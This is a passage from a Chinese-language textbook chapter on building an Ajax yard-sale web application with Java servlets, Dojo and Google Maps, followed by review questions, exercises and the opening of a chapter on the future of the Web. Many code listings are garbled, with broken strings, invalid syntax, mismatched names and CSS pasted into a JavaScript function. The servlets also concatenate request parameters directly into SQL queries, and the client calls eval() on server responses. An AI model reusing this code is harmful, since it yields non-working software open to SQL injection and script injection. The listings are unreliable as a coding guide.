  DateFormat df2 = new SimpleDateFormat("MM/dd/yyyy");
  strDate = df2.format(date);

  String addr = strStreet + ", " + strCity + ", " + strState + ", " +
                strState;
  String strRet = getSalesInJson(strState, strDate);

  out.println(strRet);
  out.close();
```

```java
String getSalesInJson(String state, String date) {
  Connection conn = null;
  String strRet = "[\n";
```

```java
try {
  Class.forName("org.apache.derby.jdbc.ClientDriver");
  conn = Utility.getDBConnection("");

  String strStmt = "select * FROM TBL_YARDSALE WHERE STATE=" +
                   + state + " AND SALEDATE=" + date + " ";

  PreparedStatement smt = conn.prepareStatement(strStmt);
  ResultSet rs = smt.executeQuery();
  int i = 0;

  while (rs.next()) {
    String strID = rs.getString("ID");
    String strAddr = rs.getString("STREETADDR");
    String strCity = rs.getString("CITY");
```

- **Listing 8.10.1**  
  `search.java` 源代码（续）

```java
String strZipcode = rs.getString("ZIPCODE");
String strState = rs.getString("STATE");

String addr = strAddr + ", " + strCity + ", " + strState + "" +
              strZipcode;

strRet = strRet + (iTotal == 0 ? "" : "") + "\t\"address\":" \
         addr + "\"," + \"id\":" + strID + "}\n";

iTotal++;
}

strRet = strRet + "]";

} catch (SQLException ex) {
  ex.printStackTrace();
  strRet = strRet + ex.toString() + ", " + date;
} catch (NotFoundException ex) {
  ex.printStackTrace();
} finally {
  try {
    if (conn == null) conn.close();
  } catch (SQLException ex) {
    ex.printStackTrace();
  }
}

return strRet;
```

> Listing 8.10.1  
> `searchSale.java` 源代码（续）

```json
{"address":"10x ElmEagle Ave, Americus, GA 31709, "id":"21-23-34-45-19"}

{"address":"820 GSW Drive, Americus, GA 31709, "id":"22-33-44-55-22"}
```

> Listing 8.10.2  
> `searchSale.java` 构建的示例 JSON 数组

```javascript
var map = null;
var geocoder = null;
var salesinfo = null;
var arrSalePoints; //the list of candidate addresses
var curIdx = 0; //current geo index
var arrSaleAddrs; //the list of candidate addresses
var arrSaleID;
var clientAddr = null;
var clientGeoPoint = null;
var arrDistances = null;
var buyerID = '11111'; //note, you will remove the magic number '11111'

function initMap() {
  if (BrowserIsCompatible(id)) {
    map = new Map(document.getElementById('map_id'));
    geocoder = new GClientGeocoder();
  }
}
```

```javascript
function sendBuyInfoForm() {
  salesinfo = null;

  var xhr = {
    url: 'searchSale' +
      '?txtStreet=' + escape(txtStreet) +
      '&txtCity=' + escape(txtCity) +
      '&txtZip=' + escape(txtZip) +
      '&selState=' + escape(selState) +
      '&txtRadius=' + escape(txtRadius) +
      '&txtDate=' + escape(txtDate)
  },

  load: function(data) {
    salesinfo = data;
    startProcessSaleAddrs();
  }
```

- **List 8.10.3**  
  `MapOps.js` 源代码（续）

```javascript
error: function(data) {
  // alert('xhr error: ' + data);
},
```

```javascript
;ndojo.xhrGet(xhrObj);
```

```javascript
function clearAllVarsForDistance() {
  arrSaleGeoPoints = null;
  curIdx = 0;
  clientAddr = null;
  arrDistances = null;
}
```

```javascript
function getDistance() {
  var addr = arrSaleAddrs[curIdx];

  geocoder.getLatLng(addr, function(point) {
    if (point) {
      arrDistances[curIdx] = 200000.0; //一个很大的数字
    } else {
      arrDistances[curIdx] = 0;
    }

    point.distanceFrom(clientGeoPoint) / 1000.0;
    curIdx++;

    if (curIdx >= arrSaleAddrs.length) {
      showAllSaleAddrs();
      return;
    }

    setTimeout("getDistance", 500);
  });
}
```


```javascript
function showAllSaleAddrs() {
  var txtRadius = dojo.byId('txtRadius');

  for (var i = 0; i < arrSaleAddrs.length; i++) {
    if (arrDistances[i] < txtRadius.value) {
      showCompleteAddr(arrSaleAddrs[i], arrSaleID[i]);
    } else {
      alert('addr: ' + arrSaleAddrs[i] + ' 超出了半径范围);
    }
  }
}
```

```javascript
function startProcessSalesAddrs() {
  // alert('startProcessSalesAddrs()');

  if (salesinfo == null) alert('salesinfo is null!');

  var sales = eval(salesinfo);

  // alert('sales length is ' + sales.length);

  arrSalesAddrs = new Array();
  arrSalesGeoPoints = new Array();
  arrSalesID = new Array();
  arrDistances = new Array();

  for (var i = 0; i < sales.length; i++) {
    arrSalesAddrs[i] = sales[i].address;
    arrSalesID[i] = sales[i].id;
    arrDistances[i] = 200000.0; // 一个很大的数字
  }

  getDistance(); // 它将递归地处理所有地址。
}
```

```javascript
function showCompleteAddr(addr, id) {
  if (BrowserIsCompatible()) {
    geocoder.getLatLng(
      addr,
      function(point) {
        if (!point) {
          //// alert("请双检查您的地址！");
        } else {
          // 1. 设置标记点
          map.setCenter(point, 12);

          var marker = new GMarker(point);
          map.addOverlay(marker);

          // marker.openInfoWindowHtml(addr);

          var htmlSnippet = "<div id='" + id + ">-内容正在加载 ";
          var divSnippet = document.getElementById(id);

          if (divSnippet == null) {
            divSnippet = document.createElement('div');
            divSnippet.setAttribute('id', id);
            divSnippet.setAttribute('address', addr);

            var divHidden = document.getElementById('divHiddenData');
            divHidden.appendChild(divSnippet);
          }

          divSnippet.innerHTML += htmlSnippet + "已加载 </div>");
        }
      }
    );
  }
}
```

列表 8.10.3：`MapOps.js` 的源代码（续）

```javascript
GEvent.addListener(marker, "click", function() {
  var divContents = document.getElementById(id);
  marker.openInfoWindowHtml(divContents.innerHTML);
});
```

```javascript
// 2. 发起获取销售项目列表的请求
var xhrSaleItems = {
  url: "getSaleItems?id=" + id,

  load: function(data) {
    var strText = data;
    var idxFirstLineEnd = strText.indexOf("\r\n");
    var strID = strText.substring(0, idxFirstLineEnd);
    var strHTML = strText.substring(idxFirstLineEnd + 1);

    var div = document.getElementById(strID);
    div.innerHTML = strHTML;
  },

  error: function(data) {
    // 什么都不做
    timeout: 2000,
  }
};

dojo.xhrGet(xhrSaleItems);
```

```javascript
function getClientAddressAndStartFilter(streetAddr, city, state, zip) {
  var addr = streetAddr + ',' + city + ',' + state + ' ' + zip;

  geocoder.getLatLng(
    addr,
    function(point) {
      if (!point) {
        //// alert("请双检查您的地址！");
      } else {
        //// alert('设置地址: ' + addr);

        map.setCenter(point, 12);

        var marker = newMarker(point);
        map.addOverlay(marker);
        marker.openInfoWindowHtml(addr);

        clientAddr = addr;
        clientGeoPoint = point;

        // 现在开始过滤
        sendBuyerInfoForm();
      }
    }
  );
}
```

列表 8.10.3：`MapOps.js` 的源代码（续）

# 第 8 章 Ajax 案例研究

```javascript
function lockItem(item) {
  // 向 lockItem servlet 发起请求
  var xhrLockItems = {
    url: "lockItem?cmd=lockid=" + item + "&buyerID=" + buyerID,

    load: function(data) {
      var strText = data;
      var idxFirstLineEnd = strText.indexOf("\r\n");
      var idxSecondLineEnd = strText.indexOf("\r\n", idxFirstLineEnd + 1);
      var strIDs = strText.substring(0, idxFirstLineEnd);
      var strSucceed = strIDs.split(",")[0];

      if (strSucceed.indexOf("fail") != 1) {
        alert('该商品目前不可用');
        return;
      }

      var strItemID = strIDs.split(",")[1];
      var strSaleID = strIDs.split(",")[2];
      var strPrice = strText.substring(
        idxFirstLineEnd + 1,
        idxSecondLineEnd - 2
      );
      var strHtml = strText.substring(idxSecondLineEnd + 1);

      addItemToShopCart(strItemID, strPrice);
      addItemToItinerary(strSaleID, strItemID);

      alert('商品已加入您的购物车！');
    },

    error: function(data) {},

    timeout: 2000000,
  };

  dojo.xhrGet(xhrLockItems);
}
```

列表 8.10.3：`MapOps.js` 的源代码（续）

# 8.10 里程碑 7：地图 IDE 与 Google Maps

```javascript
// itemNumber: 商品的 ID
// html: 服务器生成的 HTML
function addItemToShoppingCart(itemNumber, priceTag, htmlContents) {
  var trid = 'tr' + itemNumber;

  var tblshopcart =
    dojo.getElementById('id' + 'tbl_shopcart')
      .getElementsByTagName("BODY")[0];

  if (tblshopcart == null) {
    alert('找不到 tbl_shopcart!');
    return;
  }

  var newrow = document.createElement("TR");
  newrow.setAttribute('id', trid);
  newrow.setAttribute('priceTag', priceTag);

  var cell1 = document.createElement("TD");
  var cell2 = document.createElement("TD");

  alert(htmlContents);

  var idxSecondTd = htmlContents.indexOf("</td>");
  cell1.innerHTML = htmlContents.substring(0, idxSecondTd);
  cell2.innerHTML = htmlContents.substring(idxSecondTd);

  newrow.appendChild(cell1);
  newrow.appendChild(cell2);
  tblshopcart.appendChild(newrow);
}
```

（同步地）服务并逐个处理行驶距离。相反，循环必须使用递归间接实现。为此使用了函数 `getDistance()`。

- 4. 为了计算每个元素到客户端地址的距离，`getDistance()` 函数首先使用计数器 `curIdx` 获取当前地址。然后依赖 `geocoder` 查询 Google 编码服务以获取地址的地理点。此调用是异步的。一旦数据到达，异步回调函数将使用 Google Maps 提供的 `distanceFrom()` 函数计算其到客户端地址的距离。然后递归地调用 `getDistance()` 处理下一个地址，直到所有地址处理完毕。当递归结束时，调用 `showAllSales()` 显示指定半径内的销售活动。

- 5. 现在，每个销售活动到用户家庭地址的距离由 `getDistance()` 存储在 `arrDistances` 的数组中。`showAllSales()` 函数可以简单地使用循环将 `arrDistances` 中的每个元素与用户指定的半径进行比较。如果某个活动的行驶距离更，则使用 `completeAddr()` 函数在地图上显示地址。

- 6. `completeAddr()` 函数首先调用编码服务获取街道地址。一旦数据到达，它会在 Map IDE 中添加一个标记器。它还负责设置标记器的点击事件，以便显示项目列表。

在列表 8.10.3 中定义了一些辅助 JavaScript 函数。例如，函数 `initMap()` 初始化页面中的 Google Maps 对象。它首先检查页面是否兼容 Google Maps 服务，然后创建一个 `GMap2` 实例和一个 `GClient-Geocoder` 实例。`GMap2` 的构造函数需要一个用于显示地图的 HTML DIV 实例。这是通过使用 `document.getElementById("map-id")` 定位名为 `map_id` 的 DIV 元素来实现。`initMap()` 函数在页面加载时被调用。

# 处理在线订单和购物车

一旦点击销售活动的标记器，就会显示该活动中提供的每个项目的详细信息（包括缩略图、产品描述、价格信息以及订购该项目的链接）。函数 `showCompleteAddr()` 必须处理设置这些标记器的细节。

# 第 8 章 Ajax 案例研究

当 `showCompleteAddr()` 最初创建标记器时，项目的详细信息尚未到达。在这种情况下，函数必须先创建一个 DIV 元素来存放标记器的内容，但将 DIV 的内容留待加载。代码还设置了新创建的 DIV 的属性。例如，DIV 的 `id` 属性是销售活动的 ID（这样当项目信息到达时，页面就能找到该 DIV）。新创建的 DIV 然后被插入为全局 `div` 的子，用于存储销售活动集合的信息。

`showCompleteAddr()` 的第二步是向 `servletItems` 发送请求以检索销售活动的所有项目信息。一旦返回数据，上述内容将被填充。然后一旦点击标记器，就可以显示项目列表。Java Servlet `getItem` 用于帮助 `showCompleteAddr()` 自定义标记器。如列表 8.10.4 所示，servlet 在给定销售活动 ID 后返回一段 HTML 代码段，显示销售活动中可用项目的信息。如果项目仍被锁定，价格后将显示字符串 `not available`；否则将创建一个名为 `Order` 的超链接，它会触发 JavaScript 函数 `lockItem`。

JavaScript 函数 `lockItem` 的代码和辅助函数 `addToCart` 显示在列表 8.10.3 的末尾。`lockItem()` 向 servlet 发送请求并调用 `addToCart` 将项目（其缩略图和价格）添加到购物车。`addToCart()` 构建项目的 HTML 代码段，同时更新总支出的值。它们在 XHR 调用和 HTML 内容处理方面使用了与 `showCompleteAddr()` 相同的技术方法。Java Servlet `lockItem` 被 JavaScript 函数 `lockItem()` 调用以锁定项目 20 分钟。如列表 8.10.5 所示，servlet `lockItem` 尝试根据其标识符对项目加锁。如果项目已被他人锁定，servlet 返回失败结果；否则，servlet 返回混合结果。

# 8.10 里程碑 7：Map IDE 和 Google Maps

```java
protected void processRequest(
    HttpServletRequest request,
    HttpServletResponse response
) throws SQLException, IOException {
    response.setContentType("text/html;charset=UTF-8");

    PrintWriter out = response.getWriter();
    String strID = request.getParameter("id");

    out.println(strID);

    Connection conn = null;

    try {
        // 获取所有项目。
        Class.forName("org.derby.jdbc.ClientDriver");
        conn = Utility.getDBConnection();

        String stmt =
            "SELECT ID, PRICE, DESCRIPTION, STATUS, LASTLOCKTIME " +
            "FROM TBL_ITEM WHERE SALEID='" + strID + "'";

        PreparedStatement pstmt = conn.prepareStatement(stmt);
        ResultSet rs = pstmt.executeQuery();

        // 现在生成内容。每行有 5 个元素。
        int counter = 0;

        out.println("<table>");
        out.println("<tr>");

        while (rs.next()) {
            String curItemID = rs.getString(1);
            String curPrice = rs.getString(2);
            String curDescription = rs.getString(3);

            int status = rs.getInt(4);
            status = rs.wasNull() ? -1 : status;

            String lastLockTime = rs.getString(5);
            lastLockTime = rs.wasNull() ? null : lastLockTime;

            String orderString =
                "<a href=\"javascript:lockItem(" +
                curItemID +
                ")\">Order</a>";
```


```java
if (lastLockTime != null) {
    Calendar cal = Calendar.getInstance();
    long diff = cal.getTimeInMillis() - lastLockTime.getTime();

    if (diff < 20 * 60 * 1000) // 如果在过去 20 分钟内被锁定
        orderString = "Not available";
}

out.print("<<td>" +
    "<table width=80px valign=top cell-padding=5px" +
    "<tr>" +
    "<td>" +
    "</img" +
    "</td>" +
    "</tr>" +
    "<tr>" +
    "<td>" +
    "<b>price:</b>" + curPrice +
    "</td>" +
    "</tr>" +
    "<tr>" +
    "<td>" +
    "<b>Description:</b>" + curDescription +
    "</td>" +
    "</tr>" +
    "<tr>" +
    "<td>" +
    orderString +
    "</td>" +
    "</tr>" +
    "</table>" +
    "</td>" + ")");

counter++;

if (counter % 5 == 0)
    out.print("<tr>");

if (counter % 5 != 0)
    out.println("</tr>");
}

out.println("</tr>");
out.println("</table>");
} catch (Exception ex) {
    ex.printStackTrace();
    out.println(ex.toString());
} finally {
    if (conn != null)
        conn.close();
}
```

列表 8.10.4  
`getAllItems.java` 源代码继续

# 动手实践

1. 创建 `MapOps.js` 文件。在项目面板中，右键点击 `BigPeachYardSaleExpression` 节点；选择 New 和 Empty File。输入 `MapOps.js` 作为文件名，点击 Browse 按钮。选择 `web/js` 作为容器文件夹，并点击 OK。然后将列表 8.10.3 中的代码输入文件并保存。
2. 创建 `searchSales` servlet。右键点击 `BigPeachYardSaleExpression` 节点，选择 New 和 Servlet。输入 `searchSale` 为 servlet 的名称并点击 Finish 按钮。将列表 8.10.1 中的代码输入文件。用 NetBeans 生成的旧 `processRequest()` 函数替换为列表 10.1 中的 `processRequest()`，并在 `processRequest()` 之后附加 `getSalesInJson()`。在编辑器中右键点击并选择 Fix Imports，然后按 F11 编译程序。
3. 创建 `getItems` servlet。重复步骤 2，创建一个名为 `getItems` servlet 的新 servlet 并输入列表 8.10.4 中的代码。Fix Imports 并编译程序。
4. 创建 `lockItem` servlet。重复步骤 2，创建一个名为 `lockItem` 的新 servlet 并输入列表 8.10.5 中的代码。Fix Imports 并编译程序。在解析导入时，对于 Timestamp 类，应该导入 `java.sql.Timestamp`。

# 第 8 章 Ajax 案例研究

```java
protected void processRequest(HttpServletRequest request,
    throws ServletException, IOException) {

    response.setContentType("text/html", charset=UTF-8");
    PrintWriter out = response.getWriter();

    String id = request.getParameter("id");
    String strCmd = request.getParameter("cmd");
    String strBuyerID = request.getParameter("buyerid");
}
```

```java
Connection conn = null;

try {
    // 1. 获取商品。
    Classname("org.apache.jdbc.ClientDriver");
    conn = Utility.getDBConnection();

    String stmt = "SELECT ID, PRICE, DESCRIPTION, STATUS, " +
        "LOCKTIME, SALEID FROM TBL_ITEM WHERE id='" + strID + "";
}
```

```java
PreparedStatement psmt = conn.prepareStatement(stmt);
ResultSet rs = psmt.executeQuery();
boolean bCanUpdate = true;
```

```java
if (rs.next()) {
    String curItemID = rs.getString(1);
    String curPrice = rs.getString(2);
    String curDescription = rs.getString(3);
    int status = rs.getInt(4);

    status = rs.wasNull() ? -1 : status;

    Timestamp lastTime = rs.getTimestamp(5);
    lastLockTime = rs.wasNull() ? null : lastLockTime;

    String saleID = rs.getString(6);
}
```

```java
if (lastLockTime != null) {
    Calendar cal = Calendar.getInstance();
    long diff = cal.getInMillis() - lastLockTime.getTime();

    if (diff < 1 * 60 * 1000) {
        // 完成调试后改回 20 * 60 * 1000。
        bCanUpdate = false;
    }
}
```

- 列表 8.10.5  
  `lockitem.java` 的源代码

（接上文）

```java
int updateResult = 0;

if (bCanUpdate) {
    Timestamp nowTime = new Timestamp(
        Calendar.getInstance().getTimeInMillis());

    String strNow = nowTime.toString();

    String stmtUpdate = "UPDATE TBL_ITEM SET STATUS=2, " +
        "LOCKTIME='" + strNow + "', TRANSACTIONTOKEN='" +
        strUserId + "' WHERE ID='" + curItemID + "'";

    PreparedStatement psUpdate =
        conn.prepareStatement(stmtUpdate);

    updateResult = psUpdate.executeUpdate();
}

// 现在准备结果。
// 1. 成功或失败，ItemID，SaleID
// 2. 价格
// 3. HTML 内容

String line1 = ((bCanUpdate && updateResult > 0) ? "succeed" : "fail")
    + ", " + curItemID + ", " + saleID;

String line2 = cur + curPrice + "";

String line3 = "td valign='top'>" +
    "</img>" +
    "</td>" +
    "<td valign='top'>" +
    "<b>price:</b>" + curPrice + " <br>" +
    "<b>Description:</b>" + curDescription +
    "<a href='abc.com/drop/'></a>" +
    "</td>";

out.println(line1);
out.println(line2);
out.println(line3);
```

列表 8.10.5  
`lockItItem.java` 的源代码

（接上文）

```java
} catch (Exception ex) {
    ex.printStackTrace();
    out.println("fail,fail,fail*");
} finally {
    try {
        if (conn == null)
            conn.close();
    } catch (SQLException ex) {
        ex.printStackTrace();
        out.println();
    }
}
```

第 8.10.5 `lockitem.java` 的源代码（接上文）

# 第 8 章 Ajax 案例研究

| 买家信息 |
| --- |
| 购物车 |
| 项目 (0) |
| 名称 地址：896 GSW Drive, Annancous, GA 31709 |
| 出发时间：08:00 |
| 已加载的路线 |
| 73-70-85-123-08-95-123-27 |
| 到达：未知 |
| 地址：800 GSW Drive, Annancous, GA 31709 |
| 计划停留时间（分钟） |
| 项目： |
| 70-66-55-114-67-85-90-53-53-23 |
| 到达：未知 |
| 地址：101 W. Lamar Street, Annancous, GA 31709 |
| 计划停留时间（分钟） |

图 8.11.1  
行程面板

```css
<style type="text/css">
target(border: 1px dotted grey; width: 350px; height: 800px; padding: 5px;
    -moz-border-radius:18pt; radius:8pt; overflow:auto)

source(border: 1px dotted skyblue; height: 200px; width: 300px;
    -moz-border-radius:8pt; radius:8pt);

mapdialog(border: 3px solid black; height: 600px; width: 950px;
    -moz-border-radius:8pt; radius:8pt);

.itineraryItem(border: 3px solid red; padding: 2px;
    -moz-border-radius:5pt 5pt; radius:5pt; background:#bec;
</style>
```

## 8.11.1 用于拖放的样式类

项目。每个 Target 容器都有一个 1px 的灰色虚线边框，宽度和高度分别为 350px 和 800px。然后，针对拖放项目的不同行为定义了几个样式类。Mapdialog 类定义了用于显示路线描述和地图的 DIV 控件的视觉外观。

8.11.1 显示了行程面板，它有三行。第一行显示客户的家庭地址。第二行包含一个按钮，点击后将重新计算行程。第三行是一个容器，包含了用户可以拖放的行程项目。在图 8.11.1 中，行程中有两个庭院特卖活动。对于每个停点，BigPeachSaleExpress 提供了有关销售活动标识符、预计到达和出发时间、地址以及项目列表的信息。

```html
<table>
    <tr>
        <td>
            <b>家住地址：</b>
            <input type="text" id="homeAddr" width="200px"
                dojoType="dijit.form.TextBox"
                value="800 GSW Drive, Americus, GA 31709"/>
            <br/>
            <b>出发时间：</b>
            <select id="homeDepartTime"
                dojoType="dijit.form.FilteringSelect">
                <option value="8am" selected>08:00:00</option>
                <option value="9am">09:00:00</option>
                <option value="10am">10:00:00</option>
                <option value="11am">11:00:00</option>
            </select>
        </td>
    </tr>
    <tr>
        <td>
            <input type="button" id="btnLoadDirections"
                onclick="loadDirection()"
                value="加载路线"/>
        </td>
    </tr>
    <tr>
        <td>
            <div id="container2" class="target" />
        </td>
    </tr>
</table>
```

还有一个额外的文本框，供用户指定其计划在销售活动中停留多久。为了实现图 8.11.1 的效果，你必须在面板中嵌入列表 8.11.2 的内容。使用 HTML 表格设置布局。一旦点击“加载路线”按钮（见图 8.11.1），将弹出一个 DIV 来展示驾驶路线。列表 8.11.3 显示了 DIV 元素的 HTML 源代码。DIV 的布局也使用 HTML 表格实现。表格有两个行。第一行有两个单元格，分别用于驾驶路线的文本描述，另一个用于展示地图。第二行有一个按钮，用于切换整个 DIV 控件的可见性。为了实现拖放，你必须定义几个函数。这些函数列在列表 8.11.4 中。你将首先检查一些辅助函数。

**辅助函数：** 列表 8.11.4 中的第一个函数，例如 `initItinerary()`，用于初始化拖放容器和计算路线的 Google Maps 对象。该函数通过获取 `container2` 创建了一个 `dojo.nd.Source` 实例，并设置了指向名为 `itemCreator()` 函数的回调，以初始化拖放项目。`itemCreator()` 函数（列表 8.11.4 中的第四个函数）本质上是一个构造函数。每当创建一个拖放项目时，它就会被调用。根据给定的名为 `data` 的输入（其中包含销售活动的地址），该函数将返回一个包含三个部分的 JavaScript 对象：(1) 一个 HTML 节点，(2) 一个数据对象，以及 (3) 拖放项目列表。Dojo 框架将获取返回的对象并创建行程项目。

列表 8.11.2 行程面板的内容

```html
<div id="dialogDirections" title="驾驶路线"
    class="mapdialog" style="hidden">
    <table>
        <tr>
            <td align="top">
                <div id="directions"
                    style="width:300px; height:400px; overflow:auto"></</div>
            </td>
            <td align="top">
                <div id="map_canvas"
                    style="width:600px; height:400px"></</div>
            </td>
        </tr>
```


```
html <tr>
  <td colspan="2" align="center">
    <button type="button" onclick="toggleDiv('dialogDirections');">关闭</button>
  </td>
</tr>
</table>
</div>
```

列表 8.11.3 用于显示驾驶路线的 HTML 控件

```javascript
// ************ 辅助函数 ************

function initItinerary() {
  // 初始化拖放容器和用于路线的 Google Maps 对象

  target(border: 1px dotted grey; width: 350px; height: 800px; padding: 5px;
    -moz-border-radius: 18pt; radius: 8pt; overflow: auto)

  source(border: 1px dotted skyblue; height: 200px; width: 300px;
    -moz-border-radius: 8pt; radius: 8pt);

  mapdialog(border: 3px solid black; height: 600px; width: 950px;
    -moz-border-radius: 8pt; radius: 8pt);

  .itineraryItem(border: 3px solid red; padding: 2px;
    -moz-border-radius: 5pt 5pt; radius: 5pt; background: #bec;

  // 创建 dojo.nd.Source 实例并设置回调

  // source = new dojo.nd.Source("container2");

  // source.addListener("add", itemCreator);
}

function itemCreator(data) {
  // 本质上是一个构造函数
  // data 包含销售活动地址
  // 返回一个包含三个部分的 JS 对象
  // (1) HTML 节点
  // (2) 数据对象
  // (3) 拖放项目列表
}

// 更多函数定义...
```

## 8.11 里程碑 8：行程规划器与拖放

用于拖放的项出现。返回值的第一个部分（即 HTML 节点）是一个 HTML DIV 元素。它有几个属性。例如，节点的`id`属性是常量字符串`itemId`与事件实际 ID 的拼接。DIV 控件的`innerHTML`是一个表格，用于显示行程中跳货大卖的内容：销售 ID、到达和离开时间（这些时间将通过行驶方向计算来处理）以及缩略图列表。

**插入新行程停点：** 当点击项目（Map IDE）的`Order`链接时，将调用函数`addItemItinerary()`向行程中相应的销售活动添加一个项目。它会首先搜索包含与事件相关的项目集合的`DIV`元素，并将新项目添加到集合中。如果要添加的项目是该事件的第一个项目，则调用函数`addSaleLocationToItinerary()`将该销售活动作为新的停点添加到行程中。`addSaleLocationToItinerary()`简单地调用 Dojo 提供的`insertNode()`函数向容器中插入一个新的拖放项。

最后一个任务将是显示行驶路线并计算每个销售活动的到达和离开时间。`toggleDiv()`和`printTime()`是两个辅助函数。`toggleDiv()`在`DIV`元素的隐藏和可见状态之间切换。它用于显示和隐藏显示行驶路线的`DIV`元素。`printTime()`以`hh:mm:ss`格式打印日期时间对象。

一旦点击`Load`按钮，将使用`loadDirection()`将销售活动的街道地址列表加载到 Google Maps 并显示相应的行驶路线。它首先从行程面板中的项目里收集一个完整地址数组。用户的家庭地址是该数组的第一个元素。然后它调用由`GDirections`（Google Maps 行驶路线）对象提供的`loadFromPoints()`函数，将街道地址数组加载到 Google Maps 对象。随后，`loadDirection()`调用函数`updateArrivalTimeTime()`根据 Google Maps 报告的估计行驶时间重置每个销售活动的出发和到达时间。`updateArrivalTimeTime()`查询`GDirections`对象以获取`GRoute`对象列表。每个路由对应于行程中上一个销售活动到下一个活动的行驶路线。通过调用`GRoute`提供的`getDirection()`函数，`updateArrivalTimeTime()`可以计算每个销售活动的出发和到达时间。它重置每个事件对应的 HTML 标签以显示更新后的出发时间。

## 上手实践

1. 在`MapIDE.html`中，找到加载 Dojo 库的代码片段。在`dojo.require("dijit.form.Button"..`之后添加以下内容：

   ```javascript
   dojo.require("dojo.dnd.Source");
   ```

2. 在`MapIDE.html`中的以下行之后添加 Listing 8.11.1 的内容（拖放的样式类）：

   ```html
   <script type="text/javascript" src="../js/MapOps.js"></script>
   ```

3. 将 Listing 8.11.2 中的 HTML 片段嵌入行程面板。为了实现这一目标，在 MapIDE 中，找到一个以`<div DojoType="dijit.layout.AccordionPane" title="Itinerary">`开头的`DIV`元素。将 Listing 8.11.2 的片段插入到`<div>`和`</div>`标签之间（删除`Itinerary Info`字符串）。

4. 下一步是插入一个用于存储行驶路线的`DIV`元素。只需在`MapIDE.html`的`</body>`标签之前插入 Listing 8.11.3 中的 HTML 片段。

5. 在`MapIDE.html`文件中，找到名为`initMapIDE`的函数。在函数体（第 3 行）取消`//initItinerary();`语句的注释。

6. 将 JavaScript 函数（Listing 8.11.4 的内容）附加到`MapOps.js`中。

7. 通过向购物车添加一些项目来验证实现。你将在行程面板中看到相应的销售活动。拖放销售活动以调整它们的顺序。为每个事件输入计划时间并点击`Get Directions`按钮。将显示行驶路线。

在为每个事件输入计划时间时，你可能需要右键点击相应的文本框并选择“全选”（Select All），以确保接收输入焦点。

## 8.12 总结

本章向你介绍了大量的服务器端和客户端技术，用于构建复杂的 Ajax Web 应用程序。在服务器端，你积累了数据库编程的经验，例如通过 JDBC 动态构建 SQL 查询，以及通过 NetBeans 的 Visual Web Pack 进行数据表控制。Java Servlets 已证明是处理异步请求的极佳工具，而 JSP 则便于显示动态内容。在客户端，你可以使用最先进的 JavaScript 技术。通过使用异步`XMLHttpRequest`调用，你可以动态更新 Web 页面的内容。许多有趣的功能都是通过异步调用实现的，例如访问 Google Maps 服务、计算行驶距离、检索项目的缩略图以及搜索符合用户查询标准的销售活动。为了丰富用户体验，使用了 Dojo 框架来提供许多丰富的功能，例如动态广告横幅中的动画效果和对拖放的支持。

Ajax 并不是一种单一的技术。它是一种向用户交付 Web 应用程序的新方式。在 Ajax 应用程序中，用户与服务器的交互不再是简单的请求-响应模式。鉴于 Ajax 的异步性质，开发人员在处理多个异步请求之间的共享数据时必须更加谨慎。这意味着在服务器端和客户端的调试和测试上需要付出更多努力。

## 8.13 自复习题

1. 下列哪些项是 Ajax 的优点？
   - a. 编程容易
   - b. 巨大网页的局部刷新
   - c. 更丰富的用户体验
   - d. 以上所有

2. 在服务器端，Ajax 不依赖特定的 Web 应用程序平台，例如 ASP.Net。
   - a. 正确
   - b. 错误

3. 下列哪些数据格式可以由 XHR 返回？
   - a. 纯文本
   - b. XML
   - c. HTML
   - d. JSON
   - e. 以上所有

4. 与纯 Servlet 或 JSP 页面相比，JavaServer Faces 技术在生成 HTML 内容方面更加灵活。
   - a. 正确
   - b. 错误

5. 使用 Flow Layout，JSF 页面的控件渲染是基于绝对坐标的。
   - a. 正确
   - b. 错误

6. 对于名为`rowSetOne`的缓存集，语句`rowSetOne.setString(2, "abc");`执行以下操作？
   - a. 设置结果中的第二列为 abc
   - b. 设置结果中的第三列为 abc
   - c. 设置 SQL 查询中的第二个参数为 abc
   - d. 设置 SQL 查询中的第三个参数为 abc

7. 通过执行 JavaScript 语句`setTimeout("callMe()", 2000)`，`callMe()`函数将每 2 秒执行一次。
   - a. 正确
   - b. 错误

8. Dojo 框架提供了哪些功能？
   - a. 使用各种 pane（如拆分面板）构建复杂的布局
   - b. 动画
   - c. XHR 封装
   - d. dijit 控件
   - e. 以上所有

9. 如果丢失 Google Maps 响应，Listing 8.10.3 中的`startProcessAddrs()`函数可能会阻塞。
   - a. 正确
   - b. 错误

10. 要隐藏名为`divone`的`DIV`元素，可以使用 JavaScript 语句`divone.style.visibility = false`来禁用其可见性。
    - a. 正确
    - b. 错误

# 复习题答案

1. d  
2. a  
3. e  
4. b  
5. c  
6. c  
7. b  
8. e  
9. a  
10. b

## 练习

2. 重置`PostItem.jsp`的布局（使用 HTML 表），使其包含动态广告横幅。

3. 找到一种重置`PostItem.jsp`中`layoutPanel`高度，使其随数据表格增长。

4. 使用 Dojo 动画框架创建两个动态广告示例。

5. 在`MapID.html`的 BuyerInfo 面板中实现“获取 BuyerID”按钮，并更改后端代码实现，不再使用魔法数字“11111”作为买家交易 ID。

6. 在`MapID.html`的购物车面板中实现“删除”按钮。

7. 列表 8.10.3 中的`startProcessSaleAddrs()`函数，如果来自 Google Maps 地理服务的响应丢失，该函数可能会永久阻塞。请思考一种增强应用程序可靠性和健壮性的方法。

8. 通过提供对异常处理更好的支持来增强应用程序的行程面板。例如，为列表 8.11.4 中的函数`loadDirection()`提供异常处理代码，以防 Google Maps 服务无法解析街道地址的地理坐标。

9. 每当买家信息更新时，更新`MapID.html`行程面板中的家庭地址文本框。

10. 为 BigPeachYardSaleExpress 开发一个完整的测试计划。考虑你如何评估以下质量属性：(1) 可靠性，(2) 健壮性和 (3) 安全性。

# 第 9 章

# Web 应用的未来

**章节目标**

- 讨论可能取代 Ajax 的技术，如 XForms
- 讨论 Web 和 Web 应用的未来：语义 Web、Web 3.0
- 讨论 Web 结构化

## 9.1 概述

人们喜欢用 Web 1.0、Web 2.0 和 Web 3.0 等术语作为 Web 技术演变的里程碑。更准确地说，它是 Web 在以下阶段的演进路径（http://en.wikipedia.org/wiki/Web_3_）：

- Web 1.0：由 Web 浏览器驱动的*交互式超文本 Web*页面，其中呈现、逻辑和数据是无法区分的。
- Web 2.0：由 Web 服务 API 驱动的“服务网”，它将“应用逻辑”与 Web 1.0 中混合的呈现、逻辑和数据页面分离开。Web 2.0 应用的示例包括：博客、维基、使用 Ajax 提高 Web 应用的交互性以及组合应用（mashups）。Web 2.0 不显式地暴露数据模型。
